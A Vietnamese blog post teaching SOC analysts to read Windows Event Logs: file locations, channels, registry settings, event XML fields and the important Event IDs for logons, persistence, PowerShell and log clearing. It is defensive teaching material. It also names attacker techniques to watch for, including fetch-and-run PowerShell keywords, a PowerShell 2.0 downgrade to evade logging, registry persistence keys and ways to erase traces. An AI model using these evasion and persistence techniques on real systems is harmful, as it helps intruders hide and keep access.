> Trong Cybersecurity Operations, quan sát là một kỹ năng cực kỳ quan trọng. Các **Security Operations Centers (SOC)** dựa vào **logs** để phát hiện các mối đe dọa, điều tra sự cố và hiểu những gì đang xảy ra trong hệ thống. Nếu không có logs, SOC sẽ mất đi khả năng truy vết hoạt động của các attacker, rất khó để xác thực các hành vi đáng ngờ hoặc tái tạo lại các sự kiện sau khi sự cố xảy ra.

> Hiện nay, Windows Server được sử dụng rộng rãi trong môi trường doanh nghiệp trên toàn thế giới, điều đó khiến cho **Windows Event Logs** trở thành nguồn dữ liệu quan trọng cho các nhà phân tích SOC. Các logs này ghi lại các hành vi như: *user login, process execution, system event,...*. Blog này mình sẽ tập trung vào các kiến thức foundation để hiểu rõ hơn về Windows Logs, bắt đầu với khái niệm về logs và tại sao chúng đóng vai trò cực kỳ quan trọng trong điều tra số.


## Log là gì?

**Logs**, nói một cách đơn giản, là các thông tin lịch sử hoặc một cuốn sách kỹ thuật số ghi lại những gì xảy ra trên một hệ thống. Mọi thứ từ đăng nhập người dùng đến mở ứng dụng đều được ghi lại dưới dạng logs.

Hiểu về logs rất quan trọng đối với hầu hết các vai trò phòng thủ trong an ninh mạng. Khi một cuộc tấn công xảy ra, logs giúp các điều tra viên trả lời các câu hỏi quan trọng như:

- Chuyện gì đã xảy ra?
- Chuyện đó xảy ra khi nào?
- Chuyện đó xảy ra ở đâu?
- Chuyện đó xảy ra như thế nào?
- Attacker có thành công trong việc lấy dữ liệu hoặc làm hỏng hệ thống không?
- Nếu có, tác động là gì?

Bằng cách liên kết các logs lại với nhau, ta có thể recover lại luồng tấn công của attacker và xác định chuỗi tấn công đó, từ lần access đầu tiên đến tác động cuối cùng.

## Windows Event Logs nằm ở đâu?

### Định dạng và thư mục lưu trữ

Từ Windows Vista và Server 2008 trở đi, Windows ghi log dưới dạng `.evtx` (nhị phân, cấu trúc XML bên trong), do dịch vụ **Windows Event Log** quản lý. Mặc định tất cả file nằm trong đường dẫn `C:\Windows\System32\winevt\Logs\`.



Mỗi **channel log** là một file `.evtx`. Với kênh có dấu `/` trong tên, Windows đổi `/` thành `%4` khi đặt tên file. Ví dụ:

```
Microsoft-Windows-PowerShell/Operational -> Microsoft-Windows-PowerShell%4Operational.evtx
Microsoft-Windows-Sysmon/Operational -> Microsoft-Windows-Sysmon%4Operational.evtx
```

### Các nhóm log chính

**Windows Logs (5 kênh cốt lõi):**

| Kênh | File | Chứa gì | Ví dụ |
|---|---|---|---|
| **Security** | `Security.evtx` | Sự kiện bảo mật theo audit policy: đăng nhập, quyền, tạo tài khoản, truy cập đối tượng | 4624, 4625, 4672, 4688, 1102 |
| **System** | `System.evtx` | Sự kiện của hệ điều hành, driver, service | 7045 (service mới), 7036, 104 |
| **Application** | `Application.evtx` | Sự kiện do ứng dụng ghi | 1000 (ứng dụng crash), 1001 (Windows Error Reporting), 11707 (MsiInstaller cài phần mềm) |
| **Setup** | `Setup.evtx` | Cài đặt, cập nhật, hotfix | Cập nhật Windows |
| **Forwarded Events** | `ForwardedEvents.evtx` | Log nhận từ máy khác (qua Windows Event Forwarding) | Dùng khi gom log tập trung |

**Lưu ý nhỏ**: cơ chế gom log có sẵn của Windows là **Windows Event Forwarding (WEF)**, nơi máy thu (collector) nhận log vào kênh Forwarded Events.

**Applications and Services Logs:** log riêng cho từng thành phần, thường sẽ chi tiết hơn các kênh cốt lõi. Mỗi thành phần chia thành các loại:
- **Admin:** dành cho quản trị viên, thường chứa lỗi và cảnh báo.
- **Operational:** ghi hoạt động vận hành bình thường. Đây là loại SOC quan tâm nhất.
- **Analytic/Debug:** rất nhiều dữ liệu, mặc định tắt và ẩn (muốn thấy phải bật "Show Analytics and Debug Logs" trong Event Viewer)

Một số kênh cần biết khi điều tra:
| Kênh | Dùng để |
|---|---|
| `Microsoft-Windows-PowerShell/Operational` | Script block logging (4104) |
| `Microsoft-Windows-Sysmon/Operational` | Log Sysmon (nếu đã cài) |
| `Microsoft-Windows-TaskScheduler/Operational` | Tạo, chạy scheduled task |
| `Microsoft-Windows-TerminalServices-RemoteConnectionManager/Operational` và `LocalSessionManager` | Phiên RDP |
| `Microsoft-Windows-Windows Defender/Operational` | Phát hiện và xử lý malware |
| `Microsoft-Windows-WinRM/Operational` | Remote qua WinRM/PowerShell Remoting |


Sử dụng **Event Viewer** để xem logs:



Mỗi kênh đều có giới hạn dung lượng (Application, System, Security trên máy client thường mặc định **20MB**, có thể thay đổi). Khi đầy, Windows mặc định **ghi đè các sự kiện cũ nhất**. Với Security log trên máy có nhiều hoạt động, 20MB có thể chỉ giữ được vài giờ đến vài ngày, nên trong thực tế cần tăng dung lượng hoặc đẩy log về SIEM.

Xem nhanh cấu hình một kênh bằng `wevtutil`:

```powershell
wevtutil gl Security          # đường dẫn file, maxSize, retention, enabled
wevtutil el                   # liệt kê toàn bộ kênh trên máy
wevtutil sl Security /ms:1073741824   # tăng Security log lên 1GB (cần quyền admin)
```

### Vị trí và cấu hình trong Registry

Vị trí file, dung lượng tối đa và chính sách giữ log được khai báo trong Registry, nhưng ở 2 nơi khác nhau tùy loại kênh:
- **Kênh cổ điển** (Application, System, Security...): `HKLM\SYSTEM\CurrentControlSet\Services\EventLog\<Tên kênh>`.
- **Kênh kiểu mới** (Applications and Services Logs, ví dụ `Microsoft-Windows-PowerShell/Operational`): `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\WINEVT\Channels\<Tên kênh>`.



**Lưu ý:** quản trị viên (hoặc attacker có quyền cao) có thể thay đổi đường dẫn hoặc giảm dung lượng, nên khi điều tra đừng giả định rằng log luôn nằm ở thư mục mặc định.

### Những nơi lưu dấu vết khác (ngoài Event Log)

Không phải mọi thứ đều nằm trong `.evtx`. Một số nguồn bổ trợ:

| Nguồn | Vị trí | Dùng để |
|---|---|---|
| Log web IIS | `C:\inetpub\logs\LogFiles\` | Truy vết tấn công web |
| Prefetch | `C:\Windows\Prefetch\` | Bằng chứng chương trình đã chạy |
| Log cài đặt driver | `C:\Windows\INF\setupapi.dev.log` | Thiết bị USB, driver |
| Log ETW (`.etl`) | Tùy thành phần | Theo dõi sâu cấp hệ thống |
| PowerShell transcript | Do cấu hình chỉ định | Ghi lại phiên PowerShell |
| Log ứng dụng riêng | Thư mục của ứng dụng | Trình duyệt, phần mềm bên thứ ba |

## Event và Registry

**Event** cho ta biết chuyện gì đã xảy ra. **Registry** cho ta biết hệ thống đang được cấu hình như thế nào. Attacker thường để lại dấu vết ở cả 2 nơi. Biết đối chiếu cả 2 thì ta sẽ khó bị attacker đánh lừa nếu một bên bị xóa dấu vết.

Nhắc lại một chút về **Registry**: là một cơ sở dữ liệu cấu hình của Windows (OS, service, software, users). Các dữ liệu được tổ chức thành **key (thư mục)** và **value (file)**. Hai hive chủ yếu gặp khi điều tra:
- `HKLM (HKEY_LOCAL_MACHINE)`: cấu hình của toàn máy.
- `HKCU (HKEY_CURRENT_USER)`: cấu hình riêng của người dùng đang đăng nhập.

Ở mục *Vị trí và cấu hình trong Registry* mình đã nhắc về vị trí file log được khai báo trong Registry. Ở đây nói rõ hơn:

| Key | Chứa gì |
|---|---|
| `HKLM\SYSTEM\CurrentControlSet\Services\EventLog\<Kênh>` | Kênh cổ điển: `File` (đường dẫn), `MaxSize`, `Retention` |
| `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\WINEVT\Channels\<Kênh>` | Kênh kiểu mới: `Enabled` (bật/tắt), `OwningPublisher`, và `MaxSize`/`File`/`Retention` nếu đã được chỉnh khác mặc định |
| `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\WINEVT\Publishers\<GUID>` | Thông tin nhà cung cấp (provider), file chứa thông điệp để hiển thị event |

Xem trong **Registry Editor**:


**Góc nhìn của SOC**: Attacker có thể giảm `MaxSize`, đổi đường dẫn hoặc tắt kênh để giảm dấu vết. Vì vậy, các key này nên được giám sát cẩn thận (ví dụ bằng SACL + event 4657, hoặc Sysmon event 13). Các event giúp phát hiện việc xóa log và tắt audit được liệt kê ở mục *Che giấu dấu vết* bên dưới.

### Mối quan hệ giữa Event và Registry

**Chiều 1: Event ghi lại việc Registry bị thay đổi**

| Event ID | Ý nghĩa |
|---|---|
| **4657** | Một giá trị registry được tạo, sửa hoặc xóa |
| **4656** | Có yêu cầu mở handle tới key/value (ai đó chuẩn bị truy cập) |
| **4663** | Có truy cập vào đối tượng (ghi, xóa...) |
| **4660** | Đối tượng bị xóa (dùng để thấy key bị xóa) |

Điều kiện cần để các event này xuất hiện:
1. Bật audit subcategory **Registry** (thuộc Object Access).
2. Đặt **SACL** (danh sách kiểm toán) trên đúng key cần theo dõi. Không có SACL thì không có event.

Vì vậy cách làm thực tế là chỉ theo dõi một số key quan trọng như `Run`, `Services` chứ không theo dõi toàn bộ Registry, nếu không log sẽ tràn ngập.

Ví dụ, các trường của 4657 cần giải thích:
| Trường | Ý nghĩa |
|---|---|
| `ObjectName` | Key bị thay đổi (dạng `\REGISTRY\MACHINE\...`) |
| `ObjectValueName` | Tên value |
| `OperationType` | Tạo mới, sửa hay xóa value |
| `OldValue`, `NewValue` | Giá trị trước và sau khi đổi |
| `ProcessName` | Process thực hiện thay đổi |
| `SubjectUserName`, `SubjectLogonId` | Tài khoản và phiên thực hiện |


**Chiều 2: Hành động của hệ thống sinh event và tạo thay đổi registry**

| Hành động | Event | Dấu vết trong Registry |
|---|---|---|
| Cài service mới | System 7045; Security 4697 (nếu bật audit) | `HKLM\SYSTEM\CurrentControlSet\Services\<tên>` (`ImagePath`, `Start`) |
| Đổi kiểu khởi động service | System 7040 | Giá trị `Start` của service |
| Tạo / xóa / sửa scheduled task | Security 4698 / 4699 / 4702 | `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\...` |
| Chạy lệnh `reg.exe` | Security 4688 (nếu bật ghi command line) | Đọc ngay lệnh `reg add ...` để biết ai sửa gì |

Ví dụ event ID 4688:


### Các key thường bị lợi dụng để duy trì truy cập (persistence)

| Vị trí | Ý nghĩa |
|---|---|
| `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` và `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` | Chạy chương trình mỗi lần đăng nhập |
| `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce` và `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce` | Chạy một lần rồi xóa |
| `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon` (`Shell`, `Userinit`) | Bị lạm dụng để chèn chương trình khi đăng nhập |
| `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<exe>` (`Debugger`) | Gắn "debugger" để chạy thay cho EXE gốc |
| `HKLM\SYSTEM\CurrentControlSet\Services\<TênService>` | Service độc hại |

Có thể đối chiếu MITRE ATT&CK: T1547 (Boot or Logon Autostart Execution), T1543 (Create or Modify System Process), T1053 (Scheduled Task).

## Cấu trúc một event

Mọi event Windows đều có cùng một khung. Hiểu được khung này thì sẽ dễ dàng đọc được mọi loại event, bất kể Event ID là gì.

Mở một event bất kỳ (ví dụ 4624 trong Security) sẽ thấy 2 tab:
- **General**: mô tả dạng văn bản dễ đọc, được Windows ghép từ dữ liệu và mẫu thông điệp.

- **Details**: dữ liệu gốc, có 2 chế độ là *Friendly View* và *XML View*.


Khung XML của một event gồm 2 khối lớn: `<System>` (thông tin chung, giống nhau ở mọi event) và `<EventData>` (dữ liệu riêng, khác nhau theo từng Event ID). Dưới đây là một event 4624 lấy từ máy lab (Logon Type 5, tức `services.exe` đăng nhập bằng SYSTEM để chạy service):
```xml
<Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
<System>
  <Provider Name="Microsoft-Windows-Security-Auditing" Guid="{54849625-5478-4994-a5ba-3e3b0328c30d}" />
  <EventID>4624</EventID>
  <Version>3</Version>
  <Level>0</Level>
  <Task>12544</Task>
  <Opcode>0</Opcode>
  <Keywords>0x8020000000000000</Keywords>
  <TimeCreated SystemTime="2026-11-19T02:22:39.9019565Z" />
  <EventRecordID>4160836</EventRecordID>
  <Correlation ActivityID="{86bc5aa3-77c0-0002-325f-bc86c077dd01}" />
  <Execution ProcessID="1592" ThreadID="2972" />
  <Channel>Security</Channel>
  <Computer>Little</Computer>
  <Security />
  </System>
<EventData>
  <Data Name="SubjectUserSid">S-1-5-18</Data>
  <Data Name="SubjectUserName">LITTLE$</Data>
  <Data Name="SubjectDomainName">WORKGROUP</Data>
  <Data Name="SubjectLogonId">0x3e7</Data>
  <Data Name="TargetUserSid">S-1-5-18</Data>
  <Data Name="TargetUserName">SYSTEM</Data>
  <Data Name="TargetDomainName">NT AUTHORITY</Data>
  <Data Name="TargetLogonId">0x3e7</Data>
  <Data Name="LogonType">5</Data>
  <Data Name="LogonProcessName">Advapi</Data>
  <Data Name="AuthenticationPackageName">Negotiate</Data>
  <Data Name="WorkstationName">-</Data>
  <Data Name="LogonGuid">{00000000-0000-0000-0000-000000000000}</Data>
  <Data Name="TransmittedServices">-</Data>
  <Data Name="LmPackageName">-</Data>
  <Data Name="KeyLength">0</Data>
  <Data Name="ProcessId">0x61c</Data>
  <Data Name="ProcessName">C:\Windows\System32\services.exe</Data>
  <Data Name="IpAddress">-</Data>
  <Data Name="IpPort">-</Data>
  <Data Name="ImpersonationLevel">%%1833</Data>
  <Data Name="RestrictedAdminMode">-</Data>
  <Data Name="RemoteCredentialGuard">-</Data>
  <Data Name="TargetOutboundUserName">-</Data>
  <Data Name="TargetOutboundDomainName">-</Data>
  <Data Name="VirtualAccount">%%1843</Data>
  <Data Name="TargetLinkedLogonId">0x0</Data>
  <Data Name="ElevatedToken">%%1842</Data>
  </EventData>
</Event>
```

**Lưu ý:** khi copy từ XML View của Event Viewer, mỗi dòng mở khối sẽ có thêm dấu `-` (nút thu gọn). Đó không phải là một phần của XML, cần xóa đi nếu muốn đưa vào công cụ khác.

**Khối `<System>`**:
| Trường | Ý nghĩa | Dùng để làm gì |
|---|---|---|
| `Provider Name` | Thành phần sinh ra event | Phân biệt nguồn, vì cùng Event ID khác Provider là khác nghĩa |
| `EventID` | Mã loại sự kiện | Lọc event |
| `Version` | Phiên bản định dạng của event | Cùng ID nhưng khác version có thể khác trường dữ liệu |
| `Level` | Mức độ nghiêm trọng | 0 LogAlways, 1 Critical, 2 Error, 3 Warning, 4 Information, 5 Verbose |
| `Task` | Nhóm (category) của event | Với Security là subcategory audit, ví dụ `12544` = Logon |
| `Opcode` | Loại thao tác trong task | Thường là `0` (Info), ít dùng khi điều tra |
| `Keywords` | Nhóm từ khóa | Với Security: audit thành công hay thất bại |
| `TimeCreated` | Thời điểm ghi | Dựng timeline  |
| `EventRecordID` | Số thứ tự bản ghi trong log | Sắp xếp và phát hiện khoảng trống  |
| `Channel` | Kênh log chứa event | Biết event nằm ở log nào |
| `Computer` | Máy sinh event | Quan trọng khi gom log nhiều máy |
| `Execution` | Process/thread ghi event | Ít dùng, nhưng hữu ích khi truy vết |

**Lưu ý với Security log**: event Security thường có `Level = 0` (LogAlways). Mức “thành công hay thất bại” nằm ở Keywords: Audit Success (`0x8020000000000000`) hoặc Audit Failure (`0x8010000000000000`). Ví dụ `4624` là Success, `4625` là Failure.

**Khối `<EventData>`**:

Phần này khác nhau theo từng Event ID. Lấy `4624` (đăng nhập thành công) làm ví dụ:
| Nhóm | Trường | Ý nghĩa |
|---|---|---|
| Subject (ai yêu cầu đăng nhập) | `SubjectUserName`, `SubjectDomainName`, `SubjectLogonId` | Tài khoản của tiến trình xử lý đăng nhập, thường là tài khoản máy (`LITTLE$`) hoặc `SYSTEM`; với đăng nhập mạng thì để trống (NULL SID) |
| Target (tài khoản được đăng nhập) | `TargetUserName`, `TargetDomainName`, `TargetLogonId` | Tài khoản thực sự đăng nhập, `TargetLogonId` dùng để nối phiên |
| Cách đăng nhập | `LogonType`, `LogonProcessName`, `AuthenticationPackageName` | Loại đăng nhập (RDP, mạng, console...), cơ chế xác thực (NTLM, Kerberos) |
| Nguồn kết nối | `IpAddress`, `IpPort`, `WorkstationName` | Máy và IP phát sinh kết nối |
| Tiến trình | `ProcessName`, `ProcessId` | Tiến trình xử lý đăng nhập |

**Lưu ý:** nhiều người đọc nhầm trường `Subject` là người dùng đăng nhập. Thực tế tài khoản đăng nhập nằm ở `Target`. Giá trị của `Subject` phụ thuộc vào loại đăng nhập:
- Đăng nhập tại máy (Type 2) hoặc RDP (Type 10): `Subject` là tài khoản máy (`LITTLE$`), vì `winlogon`/`lsass` thay mặt người dùng gọi đăng nhập.
- Đăng nhập qua mạng (Type 3, ví dụ SMB): `Subject` là **NULL SID** (`S-1-0-0`, `SubjectUserName = -`, `SubjectLogonId = 0x0`).

Ví dụ minh họa (rút gọn) một 4624 Type 3 khi có máy khác truy cập share qua SMB:
```xml
<Data Name="SubjectUserSid">S-1-0-0</Data>
<Data Name="SubjectUserName">-</Data>
<Data Name="SubjectLogonId">0x0</Data>
<Data Name="TargetUserName">alice</Data>
<Data Name="TargetDomainName">LITTLE</Data>
<Data Name="TargetLogonId">0x5a3f21</Data>
<Data Name="LogonType">3</Data>
<Data Name="AuthenticationPackageName">NTLM</Data>
<Data Name="WorkstationName">DESKTOP-ATTACK</Data>
<Data Name="IpAddress">192.168.56.20</Data>
```

Khi đã có `TargetLogonId`, ta có thể tìm mọi event khác có cùng Logon ID (4672, 4688, 5140, 4634...) để biết trong phiên đó người dùng đã làm gì, từ lúc đăng nhập đến lúc đăng xuất.

## Các Event ID quan trọng và Logon Type

Windows có hàng nghìn Event ID, nhưng SOC chỉ cần nắm những ID quan trọng để đọc được phần lớn sự cố. Phần này mình sẽ chia theo nhóm hành vi thay vì liệt kê theo số.

**Lưu ý:** những event có dấu **(*)** là cần phải bật audit mới có.

### Đăng nhập và xác thực (log Security)

| Event ID | Ý nghĩa | Dấu hiệu đáng ngờ |
|---|---|---|
| **4624** | Đăng nhập thành công | Logon Type lạ (3, 10), giờ bất thường, IP nguồn lạ |
| **4625** | Đăng nhập thất bại | Nhiều lần từ cùng IP, hoặc nhiều tài khoản khác nhau |
| **4634** | Phiên đăng nhập kết thúc | Dùng để tính thời lượng phiên |
| **4647** | Người dùng chủ động đăng xuất | Bổ sung cho 4634 (4634 không phải lúc nào cũng được ghi) |
| **4648** | Đăng nhập bằng thông tin xác thực tường minh | Dùng `runas`, `net use` với user khác, dấu hiệu di chuyển ngang |
| **4672** | Phiên đăng nhập được gán đặc quyền cao | Tài khoản lạ có quyền admin (bỏ qua SYSTEM, vì SYSTEM sinh 4672 liên tục) |
| **4740** | Tài khoản bị khóa | Xuất hiện sau chuỗi 4625. Với tài khoản domain, event được ghi trên DC chứ không phải máy client |
| **4767** | Tài khoản được mở khóa | Mở khóa ngay sau 4740 mà không có yêu cầu hỗ trợ |

**Mã lỗi của 4625:** trường `Status`/`SubStatus` cho biết vì sao đăng nhập thất bại, rất hữu ích để phân biệt brute force và password spraying:

| SubStatus | Ý nghĩa | Gợi ý |
|---|---|---|
| `0xC0000064` | Tài khoản không tồn tại | Attacker đang dò tên user |
| `0xC000006A` | Sai mật khẩu | Tài khoản đúng, đang thử mật khẩu |
| `0xC0000234` | Tài khoản đang bị khóa | Vẫn tiếp tục thử sau khi đã bị khóa |
| `0xC0000072` | Tài khoản bị vô hiệu hóa | Thử tài khoản cũ |
| `0xC000006F` | Đăng nhập ngoài giờ cho phép | |
| `0xC0000071` / `0xC0000193` | Mật khẩu hết hạn / tài khoản hết hạn | |

Một IP sinh nhiều `0xC000006A` trên **một** tài khoản là brute force. Một IP thử **nhiều** tài khoản, mỗi tài khoản vài lần, là password spraying.

**Mở rộng cho Domain Controller**: 4768 (xin TGT Kerberos), 4769 (xin service ticket), 4771 (Kerberos pre-auth thất bại), 4776 (xác thực NTLM).

### Quản lý tài khoản và nhóm (log Security)

| Event ID | Ý nghĩa | Dấu hiệu đáng ngờ |
|---|---|---|
| **4720** | Tạo tài khoản | Tài khoản mới ngoài giờ hoặc không có yêu cầu |
| **4722 / 4725** | Bật / vô hiệu hóa tài khoản | Bật lại tài khoản cũ đã bị vô hiệu hóa |
| **4724** | Đặt lại mật khẩu của tài khoản khác | Admin reset mật khẩu tài khoản đặc quyền bất thường |
| **4726** | Xóa tài khoản | Xóa để che giấu dấu vết |
| **4732** | Thêm thành viên vào nhóm cục bộ (local) | Thêm vào Administrators ngay sau 4720 |
| **4728 / 4756** | Thêm thành viên vào nhóm global / universal (domain) | Thêm vào Domain Admins, Enterprise Admins |

### Thực thi và duy trì truy cập

| Event ID | Log | Ý nghĩa | Dấu hiệu đáng ngờ |
|---|---|---|---|
| **4688 (*)** | Security | Tạo process mới | Process lạ, parent bất thường (ví dụ `winword.exe` sinh ra `cmd.exe` / `powershell.exe`), command line đáng ngờ |
| **7045** | System | Cài service mới | `ImagePath` trỏ vào Temp, AppData, đường dẫn lạ |
| **4697 (*)** | Security | Cài service (bản ghi từ phía Security) | Như 7045 |
| **4698 (*)** | Security | Tạo scheduled task | Task chạy script hoặc file lạ |
| **4699 / 4702 (*)** | Security | Xóa / sửa task | Sửa task có sẵn để chèn lệnh |

Nếu chưa bật audit cho 4698, kênh `Microsoft-Windows-TaskScheduler/Operational` vẫn ghi mặc định và là nguồn dự phòng tốt:

| Event ID | Ý nghĩa |
|---|---|
| **106** | Task được đăng ký (tạo mới) |
| **140** | Task được cập nhật |
| **141** | Task bị xóa |
| **200 / 201** | Task bắt đầu / hoàn tất chạy action |

### PowerShell

| Event ID | Log | Ý nghĩa | Dấu hiệu đáng ngờ |
|---|---|---|---|
| **4104 (*)** | PowerShell/Operational | Nội dung script block đã chạy | Lệnh mã hóa Base64, `Invoke-Expression`, `DownloadString`, mã bị làm rối |
| **4103 (*)** | PowerShell/Operational | Ghi pipeline (module logging) | Cmdlet lạ |

**Lưu ý với 4104:** kể cả khi chưa bật Script Block Logging, PowerShell 5+ vẫn **tự động ghi** các script block chứa từ khóa đáng ngờ (ở mức Warning). Vì vậy luôn nên kiểm tra 4104 Level Warning trên mọi máy. Ngược lại, attacker hay dùng PowerShell 2.0 (`powershell -version 2`) để né cơ chế này, nên event 400 trong `Windows PowerShell` log có `EngineVersion=2.0` cũng là dấu hiệu cần để ý.

### Truy cập tài nguyên mạng

| Event ID | Ý nghĩa | Dấu hiệu đáng ngờ |
|---|---|---|
| **5140 (*)** | Truy cập một network share | Truy cập `ADMIN$`, `C$`, `IPC$` từ máy lạ |
| **5145 (*)** | Kiểm tra chi tiết quyền trên file share | Truy cập file lạ qua SMB |

### Che giấu dấu vết

| Event ID | Log | Ý nghĩa | Khi nào đáng ngờ |
|---|---|---|---|
| **1102** | Security | Security log bị xóa | Gần như luôn đáng ngờ, điều tra ngay |
| **104** | System | Một log khác bị xóa (System, Application, PowerShell...) | Gần như luôn đáng ngờ, điều tra ngay |
| **1100** | Security | Dịch vụ Event Log bị tắt | **Xuất hiện mỗi lần tắt máy bình thường.** Chỉ đáng ngờ khi không có shutdown đi kèm (không thấy System 1074/6006 cùng thời điểm) |
| **4719** | Security | Audit policy bị thay đổi | Có thể xuất hiện hợp lệ khi GPO được áp dụng. Đáng ngờ khi audit bị **tắt** (`Success removed`) hoặc do tài khoản người dùng thay đổi |

**Lưu ý:** attacker có kinh nghiệm sẽ không xóa cả log (vì sinh 1102) mà dừng ghi log hoặc xóa từng bản ghi. Dấu hiệu khi đó là một khoảng trống trong `EventRecordID` hoặc một khoảng thời gian dài không có event nào trên máy đang hoạt động.

